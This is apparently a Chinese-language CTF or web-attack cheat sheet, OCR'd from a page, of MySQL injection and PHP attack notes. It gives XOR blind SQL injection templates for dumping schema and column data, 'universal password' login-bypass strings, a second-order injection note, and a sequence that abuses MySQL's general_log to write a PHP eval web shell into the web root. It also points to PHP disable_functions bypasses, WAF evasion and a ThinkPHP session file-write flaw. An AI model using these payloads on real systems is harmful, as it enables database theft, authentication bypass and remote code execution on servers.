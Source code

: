 1. xor盲注

   ```mysql
   1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{0},1))>{1})
   1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='tablename')),{0},1))>{1})
   1^(ord(substr((select(group_concat(columnname))from(tablename)),{0},1))>{1})
   ```

2. 时间盲注

   `order by`后可用`if`盲注

### 万能密码

```mysql
admin' or '1'='1
' UNION Select 1,1,1 FROM admin Where ''='
xxx'=' # username='xxx'='' → false=false
```

### 二次注入

存在修改密码此类功能，考虑update存在未过滤，将注入写入`username`

### 写入shell

```
show variables like '%general%';  #查看配置
set global general_log = on;  #开启general log模式
set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地 址
select '<?php eval($_POST[cmd]);?>'  #写入shell
```

### mysql任意文件读

[mysql任意文件读](https://www.cnblogs.com/apossin/p/10127496.html)

## PHP

### disable_func

PHP 7.0-7.3:disable_func_bypass.txt

https://www.cnblogs.com/hookjoy/p/8988862.html

参数名字符串解析

开头空格自动删除，行内空格,[等自动转换为下划线，用于绕WAF（全局）

https://www.freebuf.com/articles/web/213359.html

### thinkphp

1. 6.0.0-6.0.1:session任意文件写
